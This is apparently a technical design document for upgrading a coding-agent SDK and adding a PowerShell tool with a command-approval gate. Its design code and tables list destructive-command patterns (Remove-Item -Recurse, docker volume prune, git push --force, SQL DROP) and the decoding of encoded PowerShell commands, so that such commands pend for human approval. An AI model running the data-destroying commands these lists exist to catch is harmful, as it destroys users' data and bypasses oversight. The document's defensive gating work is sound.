




# Technical Design Document (TDD)

## SA4E-336 — Upgrade pi-coding-agent 0.80.10 → 0.99.1 + native PowerShell tool

---

## Document Information

| Field | Value |
|-------|-------|
| Jira Ticket | SA4E-336 |
| Title | Upgrade pi-coding-agent 0.80.10 → 0.99.1 + native PowerShell tool |
| Author | SA Agent |
| Version | 1.3 |
| Date | 2026-10-04 |
| Status | Draft (v1.3 — SEC-06 closed via bash command-content guard, SA4E-335 incident follow-up) |
| Related BRD | documents/SA4E-336/BRD.md |
| Related FSD | documents/SA4E-336/FSD.md |
| Epic | SA4E-289 — Migrate LangGraph Workflow Engine to Pi SDK |

---

## Author Tracking

| Role | Name - Position | Responsibility |
|------|-----------------|----------------|
| Author | SA Agent – Solution Architect | Create document |
| Peer Reviewer | To be assigned | Review document |

---

## Revision History

| Version | Date | Author | Changes |
|---------|------|--------|---------|
| 1.0 | 2026-10-01 | SA Agent | Initiate document — auto-generated from BRD and FSD |
| 1.1 | 2026-10-01 | SA Agent | Reconcile spec conflict from BA Review Gate (KB-618470): §3.2 classification rebuilt on actual `createToolApprovalGateHandler` — destructive-PS command-content check (`DESTRUCTIVE_PS_PATTERNS`) runs FIRST, mode-independent (BR-11, fail-secure); `bash` removed from all dangerous sets — behavior unchanged per BRD §1.2; §7.2 approval matrix mode-scoped; §1.2/§1.4/§2.2/§5/§11/§12 aligned. Details: DISCREPANCY.md (all DISC RESOLVED, OPEN-1 tracked out of scope) |
| 1.2 | 2026-10-01 | SA Agent | Fold in Phase 3.7 Security Design Review findings (SECURITY-REVIEW.md). **SEC-01 (High):** promote the destructive-PowerShell pattern catalog to a full design requirement — expanded minimum catalog by category + mandatory normalization/decode step before matching (§7.3). **SEC-02 (High):** resolve the NFR §8 contradiction — adopt **allowlist-of-safe posture (option b)**: `powershell` auto-approves ONLY on `READONLY_PS_PATTERNS` match; everything else (incl. empty/unparseable command) pends — fail-secure by default; FSD TC-404 empty-command semantics must flip from auto-approve → pend (§3.2, §8.4). §3.2 decision order updated (Step 1 destructive → Step 1b safe-allowlist → else pend); §8 NFR security section added; §12 checklist security items added; §15 open questions updated. SEC-04/05/07/08/10 recorded as DEV/QA requirements; SEC-06 as follow-up ticket. Diagrams unchanged (DESTRUCTIVE_PS_PATTERNS scope note in §5.4). FSD NFR §8 reword flagged for BA (non-blocking). Source: SECURITY-REVIEW.md v1.0 |
| 1.3 | 2026-10-04 | SA Agent | **Close SEC-06** (follow-up to the SA4E-335 Postgres volume-loss incident): add a narrow **bash command-content guard** — `DESTRUCTIVE_BASH_PATTERNS` + `evaluateBashDestructiveGuard`, evaluated BEFORE the remembered-pattern and Autopilot branches, pend mode-independent for destructive content only. §3.2 bash table + Bash note rewritten; §7.2 approval matrix rows updated (Supervised/Autopilot destructive bash); §12 item 10 → Closed. Backend parity: GateGuardService `DEFAULT_PATTERNS` extended with the docker subset. Deliberately NOT an allowlist-of-safe conversion for bash (still BRD §1.2 scope) — non-destructive bash behavior unchanged (TC-15/TC-16 hold). Source: extension gate + GateGuard tests (SA4E-335 prevention work) |

---

## Sign-Off

| Name | Signature and date |
|------|--------------------|
| | ☐ I agree and confirm the technical design in this TDD |
| | ☐ I agree and confirm the technical design in this TDD |

---

## 1. Introduction

> **Scope Boundary:** This TDD specifies HOW to implement the requirements defined in the FSD. It does NOT repeat functional requirements, business rules, use cases, or UI specifications — refer to the FSD for those. This document focuses on: technology choices, architecture decisions, implementation patterns, and deployment concerns.

### 1.1 Purpose

This TDD defines the technical design for upgrading `@earendil-works/pi-coding-agent` from `0.80.10` to `0.99.1` to enable the native `powershell` tool on Windows, replacing the fragile Git-Bash workaround (`shellPath` pin + `normalizeBashCommandPaths` spawnHook). The upgrade ensures path commands (`c:\...`, `c:/...`) execute natively without dialect translation.

### 1.2 Scope

**In Scope:**
- Bump all `@earendil-works/*` packages to `0.99.1` in lockstep across `root/package.json` and `extension/package.json`
- Wire `createPowerShellTool` on `win32`, keep `createBashTool` on non-Windows
- Remove Git-Bash `shellPath` pin and `normalizeBashCommandPaths` spawnHook for Windows
- Update workflow gate classification: `powershell` auto-approves ONLY when the command matches the safe allowlist (`READONLY_PS_PATTERNS`); destructive PowerShell commands are gated via `ToolApprovalClassifier.DESTRUCTIVE_PS_PATTERNS` checked FIRST (FSD BR-11, fail-secure ordering), and any command that is neither clearly safe nor statically understandable pends (fail-secure default — SEC-02 allowlist-of-safe posture). `bash` classification unchanged (BRD §1.2)
- Update system prompt to PowerShell dialect on Windows
- Update session tool loadout and `classifyTool` mapping
- Add/update verification tests

**Out of Scope:**
- Node engine upgrade (unless `0.99.1` requires Node ≥22 — confirm before proceeding)
- Non-Windows platform changes beyond keeping `bash`
- Functional changes to Pi SDK APIs beyond compatibility fixes
- Changes to `backend/` (Hono) or `knowledge/` modules — this is extension-only

### 1.3 Technology Stack

| Layer | Technology | Version |
|-------|-----------|---------|
| Language | TypeScript | ^5.4.0 |
| Framework | VS Code/Kiro Extension | ^1.85.0 |
| Agent SDK | @earendil-works/pi-coding-agent | 0.80.10 → 0.99.1 |
| Agent Core | @earendil-works/pi-agent-core | 0.80.10 → 0.99.1 |
| AI Models | @earendil-works/pi-ai | 0.80.10 → 0.99.1 |
| Build Tool | esbuild | 0.28.2 |
| Test Framework | vitest | ^4.1.8 |
| Node Engine | Node.js | 22.x (verified compatible) |
| Package Manager | npm | 10.x |

### 1.4 Design Principles

- **OS-Aware Abstraction** — Single code path that branches on `process.platform` at tool creation time, not at call sites
- **Fail-Secure (deny-by-default for powershell)** — Destructive PS commands are gated even under Autopilot (BR-11); `powershell` auto-approves ONLY on a positive safe-allowlist match (`READONLY_PS_PATTERNS`) — any command that is empty, unrecognized, encoded, obfuscated, or otherwise not statically understandable pends (SEC-01/02/03). An unwired `getMode()` defaults to Supervised (pend). Unknown tools are unknown-safe in `ToolApprovalClassifier` (deliberate MCP design) and pend under Supervised. PowerShell fallback to bash on failure (note: fallback degrades allowlist-of-safe (PS) → denylist (`DESTRUCTIVE_BASH_PATTERNS`) — SEC-10; the WARN value `securityPosture=command-content-gate-disabled` is the historical label for that degradation)
- **No `as any`** — All type fixes must be against 0.99.1 `.d.ts`, no suppression shortcuts
- **Single Source of Truth** — Tool classification constants centralized, not scattered across files
- **Backward Compatible** — Non-Windows platforms keep bash behavior unchanged

### 1.5 Constraints

- All `@earendil-works/*` packages must be at the same version (0.99.1) to avoid duplicate `pi-agent-core` instances
- `createPowerShellTool` does NOT accept `shellPath` option (0.99.1 self-resolves pwsh.exe → Windows PowerShell)
- `ToolName` union type in 0.99.1 includes `"powershell"` — all type guards must handle this
- Extension must remain compatible with VS Code ^1.85.0
- No database schema changes — this is purely an extension-internal upgrade

### 1.6 References

| Document | Location |
|----------|----------|
| BRD | documents/SA4E-336/BRD.md |
| FSD | documents/SA4E-336/FSD.md |
| Upgrade Guide | documents/UPGRADE-pi-0.99-powershell-tool.md |
| Code Intelligence | .analysis/code-intelligence/project-structure.md |

---

## 2. System Architecture

### 2.1 Architecture Overview

The upgrade affects the VS Code/Kiro extension's Pi workflow layer. The core change is replacing the Git-Bash workaround with native PowerShell on Windows. The architecture remains a single extension process with LangGraph orchestration — no new services, no new databases, no new APIs.



*[Edit in draw.io](diagrams/architecture.drawio)*

### 2.2 Component Diagram

| Component | File | Responsibility | Change |
|-----------|------|----------------|--------|
| `PiCodingTools` | `extension/src/pi-workflow/pi-coding-tools.ts` | `createWorkspaceTools()` — OS-aware shell tool selection | **MODIFY** — Replace bash-only with OS-aware `createPowerShellTool`/`createBashTool` |
| `PiWorkflowGate` | `extension/src/pi-workflow/pi-workflow-gate.ts` | `ToolApprovalGate` — command-content classification | **MODIFY** — powershell branch: destructive/unparseable pend FIRST (`DESTRUCTIVE_PS_PATTERNS` + `normalizePsCommand`), auto-approve ONLY on `READONLY_PS_PATTERNS` match, else pend (allowlist-of-safe, SEC-02); `powershell` NOT added to `READ_ONLY_TOOLS`; `bash` unchanged (BRD §1.2) |
| `TurnBudgetGuard` | `extension/src/pi-workflow/turn-budget-guard.ts` | `buildFailureSteerCorrection` — shell-aware error messages | **MODIFY** — Make shell-aware (PowerShell vs bash) |
| `StreamProtocolAdapter` | `extension/src/chat/engine/StreamProtocolAdapter.ts` | `classifyTool()` — tool name → category mapping | **MODIFY** — Add `powershell` → `shell` mapping |
| `PiAgentSessionHost` | `extension/src/pi-workflow/pi-agent-session-host.ts` | Session tool loadout allowlist | **MODIFY** — Include `powershell` on win32, exclude `bash` |
| `PiProvider` | `extension/src/pi-workflow/pi-provider.ts` | `Agent` ctor, event types, `BeforeToolCallContext` | **VERIFY** — Check 0.99.1 type compatibility |
| `PiEventMapper` | `extension/src/pi-workflow/pi-event-mapper.ts` | `mapAgentEvent`, `ToolEventTracker` | **VERIFY** — Check event type changes |
| `ToolApprovalClassifier` | `extension/src/chat/engine/ToolApprovalClassifier.ts` | `requiresApproval()` — dangerous tool patterns | **MODIFY** — Export `DESTRUCTIVE_PS_PATTERNS` (command-content regex, BR-11); name-based sets unchanged (no `bash`/`powershell` entries) |
| `PiExtensionsConfig` | `extension/src/pi-workflow/pi-extensions.config.ts` | Extension version pins | **MODIFY** — Update version to 0.99.1 |



*[Edit in draw.io](diagrams/component.drawio)*

### 2.3 Deployment Architecture

No deployment topology changes. The extension is packaged as a VSIX and installed into VS Code/Kiro. The upgrade is a version bump within the same extension — no new containers, no new servers, no new infrastructure.

```
┌─────────────────────────────────────────────────────────┐
│                    VS Code / Kiro IDE                    │
│  ┌─────────────────────────────────────────────────────┐│
│  │           SDLC Agents Extension (v1.46.7)           ││
│  │  ┌───────────────────────────────────────────────┐  ││
│  │  │         Pi Workflow Layer (TypeScript)         │  ││
│  │  │  ┌─────────────┐  ┌─────────────────────────┐  │  ││
│  │  │  │ PiProvider  │  │ PiAgentSessionHost      │  │  ││
│  │  │  │ (Agent)     │  │ (Session + Tools)       │  │  ││
│  │  │  └──────┬──────┘  └───────────┬─────────────┘  │  ││
│  │  │         │                     │                 │  ││
│  │  │         └──────────┬──────────┘                 │  ││
│  │  │                    │                            │  ││
│  │  │           ┌────────▼────────┐                   │  ││
│  │  │           │ pi-coding-agent │                   │  ││
│  │  │           │    0.99.1       │                   │  ││
│  │  │           └────────┬────────┘                   │  ││
│  │  └────────────────────┼────────────────────────────┘  ││
│  └───────────────────────┼───────────────────────────────┘│
└──────────────────────────┼────────────────────────────────┘
                           │
              ┌────────────▼────────────┐
              │   OS-Aware Shell Tool   │
              │  ┌───────────────────┐  │
              │  │ win32: pwsh.exe   │  │
              │  │ non-win32: bash   │  │
              │  └───────────────────┘  │
              └─────────────────────────┘
```

### 2.4 Communication Patterns

| From | To | Protocol | Pattern | Description |
|------|----|----------|---------|-------------|
| `PiProvider` | `pi-coding-agent` | TypeScript API | Sync | `createPowerShellTool(workspaceRoot)` / `createBashTool(workspaceRoot)` |
| `PiAgentSessionHost` | `pi-coding-agent` | TypeScript API | Sync | `createAgentSession({ tools: allowlist })` |
| `PiWorkflowGate` | `ToolApprovalClassifier` | TypeScript API | Sync | `requiresApproval(toolName)` |
| `StreamProtocolAdapter` | Webview | `postMessage` | Async | `classifyTool(name)` → UI category |
| `TurnBudgetGuard` | `PiProvider` | Function call | Sync | `buildFailureSteerCorrection(toolName, error)` |

---

## 3. API Design

> **Note:** This upgrade does not introduce new REST APIs. The changes are internal to the extension's TypeScript module boundaries. The "API" contracts below are TypeScript function signatures and type contracts.

### 3.1 Function: `createWorkspaceTools`

**Implements:** UC-002, BR-05, BR-06, BR-07, BR-08, BR-09

| Attribute | Value |
|--------|-------|
| File | `extension/src/pi-workflow/pi-coding-tools.ts` |
| Signature | `createWorkspaceTools(workspaceRoot: string): Promise<AgentTool[]>` |
| Platform | win32 → `powershell` tool; non-win32 → `bash` tool |

**Return Value:**

```typescript
// On win32:
[
  { name: "read", ... },
  { name: "write", ... },
  { name: "edit", ... },
  { name: "powershell", ... },  // ← was "bash"
  { name: "grep", ... },
  { name: "find", ... },
  { name: "ls", ... },
  { name: "get_workspace_info", ... },
]

// On non-win32:
[
  { name: "read", ... },
  { name: "write", ... },
  { name: "edit", ... },
  { name: "bash", ... },        // ← unchanged
  { name: "grep", ... },
  { name: "find", ... },
  { name: "ls", ... },
  { name: "get_workspace_info", ... },
]
```

**Error Handling:**

| Scenario | Behavior | Log Level |
|----------|----------|-----------|
| `createPowerShellTool` throws | Fallback to `createBashTool` | WARN |
| `createPowerShellTool` undefined | Fallback to `createBashTool` | WARN |
| `workspaceRoot` empty | Return `[]` | DEBUG |
| All tool creation fails | Return `[]` (non-fatal) | ERROR |

### 3.2 Function: `createToolApprovalGateHandler` — Tool Approval Classification

**Implements:** UC-003, BR-10, BR-11

| Attribute | Value |
|-----------|-------|
| File | `extension/src/pi-workflow/pi-workflow-gate.ts` |
| Signature | `createToolApprovalGateHandler(approvalGate: ToolApprovalGate, commandPatternMatcher: CommandPatternMatcher, opts?: { onApprovalPending?, getMode? }): ToolApprovalGateHandler` |
| Request shape | `requestApproval({ toolUseId, toolName, input, agentId?, ticketKey? })` — the shell command string is at `req.input.command` (per `approval-adapter.ts` `ToolApprovalGateHandler`) |

> **Reconcile note (v1.1):** FSD §3.3.4 presents an idealized `classifyToolCall(toolName, args)` classification function. The actual architecture is the mode-aware gate handler `createToolApprovalGateHandler` (verified in code) — the FSD's classification order is mapped onto this handler below; observable classification semantics (FSD TC-04/TC-05) are unchanged. **Source of truth (reconcile decision):** FSD v2.1 §3.3.4 for `powershell` classification (new tool); pre-upgrade code behavior + BRD §1.2 for `bash` classification (unchanged); security fail-secure for decision ordering. Full analysis: `DISCREPANCY.md`.

**Classification Sets (reconciled v1.1):**

```typescript
// pi-workflow-gate.ts — READ_ONLY_TOOLS (reconciled v1.2 — SEC-02)
const READ_ONLY_TOOLS: ReadonlySet<string> = new Set([
  'read', 'grep', 'find', 'ls', 'get_workspace_info'
]);
// - 'powershell' REMOVED from this NAME-set (v1.2, SEC-02). It is NO LONGER
//   auto-approved by name membership. Auto-approval of a powershell call now
//   requires a POSITIVE safe-allowlist match (READONLY_PS_PATTERNS) in the
//   powershell branch (§3.2 Step 1b); everything else pends (fail-secure).
//   Rationale: name-membership was deny-by-default-inverted (fail-open) — any
//   destructive command not caught by DESTRUCTIVE_PS_PATTERNS fell through to
//   auto-approve, contradicting NFR §8. The allowlist-of-safe posture lets the
//   TDD honestly satisfy "all destructive PS commands require approval".
// - 'bash' deliberately NOT added — pre-upgrade behavior preserved (BRD §1.2:
//   "No changes to non-Windows platforms beyond keeping bash").
// - 'get_workspace_info' retained (pre-existing, actual code).

// chat/engine/ToolApprovalClassifier.ts — canonical dangerous definitions:
// - DANGEROUS_TOOL_PATTERNS (tool-NAME set): UNCHANGED membership — no 'bash',
//   no 'powershell' name entries.
//   * A 'bash' name entry would gate ALL bash calls even under Autopilot =
//     behavior change vs pre-upgrade → violates BRD §1.2. REJECTED.
//   * A 'powershell' name entry would create dual-membership (powershell in
//     READ_ONLY + DANGEROUS) — the exact ambiguity flagged by BA Review
//     (TDD v1.0 §3.2 security hole); with the reconciled decision order it
//     would also be dead logic (Step 2 short-circuits first). REJECTED.
//   * requiresApproval('bash') === false and requiresApproval('powershell')
//     === false (unknown-safe default) — consistent for both shell tools.
// - DESTRUCTIVE_PS_PATTERNS (NEW export — command-CONTENT regex list): the
//   canonical destructive-PowerShell definition implementing FSD BR-11
//   ("DANGEROUS_TOOLS must include powershell for destructive commands").
```

**Reconciled Decision Order (v1.1):**

```typescript
// extension/src/pi-workflow/pi-workflow-gate.ts — createToolApprovalGateHandler
// [Implements: PREQ-SA4E-336-03] — reconciled v1.1

return {
  requestApproval: async (req) => {
    const toolName = (req.toolName || '').toLowerCase();

    // --- PowerShell branch (allowlist-of-safe posture — SEC-02 option b) ---
    // powershell is gated by COMMAND CONTENT, not by name-set membership.
    // Decision order within the branch is fail-secure: destructive FIRST, then
    // a positive safe-allowlist, then DENY-BY-DEFAULT (pend) for everything
    // else. The branch ALWAYS returns explicitly — it never falls through to a
    // generic read-only / Autopilot auto-approve path (SEC-04 invariant guard).
    if (toolName === 'powershell') {
      // Normalize before matching (SEC-03): decode -EncodedCommand/-enc/-e,
      // strip backtick/caret escapes, collapse whitespace, lower-case. A
      // command that cannot be statically decoded/understood is treated as
      // NOT-safe → pend (handled by the deny-by-default below).
      const raw = String(req.input?.command ?? '');
      const norm = normalizePsCommand(raw); // see §7.3 normalization step
      const understandable = norm.decoded; // false if encoded/obfuscated/undecodable

      // Step 1 [BR-11]: destructive command-CONTENT check FIRST, mode-independent.
      // Destructive PS commands are gated even under Autopilot (fail-secure —
      // this ordering closes the dual-membership hole flagged by BA Review in
      // TDD v1.0 §3.2). Canonical patterns: DESTRUCTIVE_PS_PATTERNS (§7.3).
      if (!understandable || DESTRUCTIVE_PS_PATTERNS.some((p) => p.test(norm.text))) {
        opts?.onApprovalPending?.(req.toolName, req.toolUseId); // best-effort notify
        const result = await approvalGate.requestApproval(req.toolUseId);
        const decision = (result as { decision?: string })?.decision;
        if (decision === 'approve') return { approved: true };
        return { approved: false, reason: (result as { reason?: string })?.reason || 'Destructive/unparseable PowerShell command requires approval' };
      }

      // Step 1b [SEC-02 allowlist-of-safe]: auto-approve ONLY on a positive
      // READONLY_PS_PATTERNS match (whole-command, understandable, not
      // destructive). This replaces the former "powershell ∈ READ_ONLY_TOOLS"
      // auto-approve (which was deny-by-default-inverted / fail-open).
      if (norm.text.length > 0 && READONLY_PS_PATTERNS.some((p) => p.test(norm.text))) {
        return { approved: true, reason: 'Read-only PowerShell command auto-approved' };
      }

      // Step 1c [DENY BY DEFAULT — fail-secure]: empty command, or a command
      // that matches neither the destructive nor the safe allowlist, PENDS.
      // This is the SEC-02 resolution: the gate is now allow-by-safelist for
      // powershell, so NFR §8 ("all destructive PS commands require approval")
      // holds — any unrecognized command, including an empty one (FSD TC-404
      // semantics flipped — see §8.4), requires approval rather than
      // auto-approving.
      opts?.onApprovalPending?.(req.toolName, req.toolUseId);
      const result = await approvalGate.requestApproval(req.toolUseId);
      const decision = (result as { decision?: string })?.decision;
      if (decision === 'approve') return { approved: true };
      return { approved: false, reason: (result as { reason?: string })?.reason || 'Unrecognized PowerShell command requires approval (fail-secure)' };
    }

    // Step 2: read-only tools — auto-approve in BOTH modes (pre-existing).
    // NOTE: 'powershell' is NO LONGER a member of READ_ONLY_TOOLS (SEC-02) —
    // it is gated by command content in the branch above. This set now covers
    // only the inherently read-only NAME-based tools.
    if (READ_ONLY_TOOLS.has(toolName)) {
      return { approved: true, reason: 'Read-only tool auto-approved' };
    }

    // Step 3: remembered command patterns (pre-existing — KNOWN BUG, out of
    // scope): line 41 passes req.toolName instead of req.input.command into
    // commandPatternMatcher.matches(), so "Allow all" patterns never match
    // shell commands. Tracked in DISCREPANCY.md (OPEN-1). NOT fixed here.
    if (commandPatternMatcher.matches(req.toolName)) {
      return { approved: true, reason: 'Matched auto-approve pattern' };
    }

    // Step 4: Autopilot + non-destructive (name-based, canonical classifier —
    // unchanged). Unknown tools are unknown-safe → auto-approved under
    // Autopilot (deliberate MCP design, ToolApprovalClassifier.ts).
    const destructive = isDestructiveTool(toolName); // requiresApproval()
    const mode: AutopilotMode = opts?.getMode?.() ?? 'supervised';
    if (mode === 'autopilot' && !destructive) {
      return { approved: true, reason: 'Autopilot: non-destructive tool auto-approved' };
    }

    // Step 5: Supervised (default — fail-secure when getMode() unwired), or
    // destructive under Autopilot: pend and ask the user via ToolApprovalGate.
    try {
      opts?.onApprovalPending?.(req.toolName, req.toolUseId);
    } catch {
      // Notification must never break the gate.
    }
    const result = await approvalGate.requestApproval(req.toolUseId);
    const decision = (result as { decision?: string })?.decision;
    if (decision === 'approve') return { approved: true };
    return { approved: false, reason: (result as { reason?: string })?.reason || 'Rejected' };
  },
};
```

**Mode-Dependent Behavior (reconciled v1.1):**

| Tool | Command | Supervised (default) | Autopilot | Source of Truth |
|------|---------|----------------------|-----------|-----------------|
| `powershell` | Safe-allowlist match (e.g., `Get-ChildItem .`) | **Auto-approve** | **Auto-approve** | FSD BR-10, realized as `READONLY_PS_PATTERNS` positive match (§3.2 Step 1b) |
| `powershell` | Destructive (e.g., `Remove-Item -Recurse`) | **Require approval (pend)** | **Require approval (pend)** | FSD BR-11 (`DESTRUCTIVE_PS_PATTERNS`, Step 1 first) |
| `powershell` | Empty / unrecognized / encoded / obfuscated | **Require approval (pend)** | **Require approval (pend)** | SEC-01/02/03 fail-secure deny-by-default (§3.2 Step 1c); FSD TC-404 semantics flipped (§8.4) |
| `bash` | Non-destructive command | **Pend — ask user** | **Auto-approve** (non-destructive classification) | Pre-upgrade code behavior + BRD §1.2 (UNCHANGED) |
| `bash` | Destructive command (`DESTRUCTIVE_BASH_PATTERNS`) | **Require approval (pend)** | **Require approval (pend)** | SA4E-335 incident follow-up (closes SEC-06) — command-content guard, mode-independent (§3.2 Step 1a-bash) |
| Unknown tool | — | Pend — ask user | Auto-approve (unknown-safe) | `ToolApprovalClassifier` (deliberate MCP design, unchanged) |

> **Bash note (BRD §1.2 + SA4E-335 follow-up, closes SEC-06):** `bash` is NOT in `READ_ONLY_TOOLS` and is NOT treated as inherently destructive (`requiresApproval('bash') === false`, unknown-safe). Supervised mode pends every `bash` call; Autopilot auto-approves **non-destructive** commands — both UNCHANGED per BRD §1.2. **NEW (SA4E-335 incident follow-up):** bash now runs a **narrow command-content guard** — a command matching `DESTRUCTIVE_BASH_PATTERNS` (docker `volume rm|prune`, `compose down -v|--volumes`, `system prune`, `rm …`, `git reset|clean|push --force|checkout -f`, SQL `DROP|TRUNCATE|DELETE`, disk/format) **pends mode-independently BEFORE** the remembered-pattern ("Allow all") and Autopilot branches. Everything else returns `null` and falls through to the unchanged path, so TC-15/TC-16 and the §7.2 matrix remain valid. Deliberately NOT converted to the powershell allowlist-of-safe posture — that would be a behavior change beyond BRD §1.2. SEC-06 is therefore closed for bash-native destructive commands; the "Allow all" wiring bug (OPEN-1) remains tracked separately.

> **Powershell note (FSD BR-10/BR-11):** `powershell` intentionally behaves differently from `bash`: destructive PS commands are gated in BOTH modes via the command-content check (Step 1), and ONLY safe-allowlisted PS commands auto-approve in BOTH modes (Step 1b). "Classify powershell like bash" (BRD Story 4) is realized as **security-policy equivalence** (destructive always gated — FSD UC-003 postcondition, NFR §8), not as identical set membership — `bash` keeps its pre-upgrade mode-dependent behavior for **non-destructive** commands (destructive bash content is gated in BOTH modes since v1.3, see Bash note).

> **SEC-02 resolution — allowlist-of-safe posture (SA decision, v1.2):** The Security Design Review (SEC-02, High) flagged that the former design (powershell ∈ `READ_ONLY_TOOLS` + denylist `DESTRUCTIVE_PS_PATTERNS`) was **deny-by-default-inverted / fail-open**: any destructive command NOT matched by the denylist fell through to auto-approve, which directly contradicts FSD NFR §8 ("All destructive PowerShell commands require approval"). A denylist cannot satisfy "all".
>
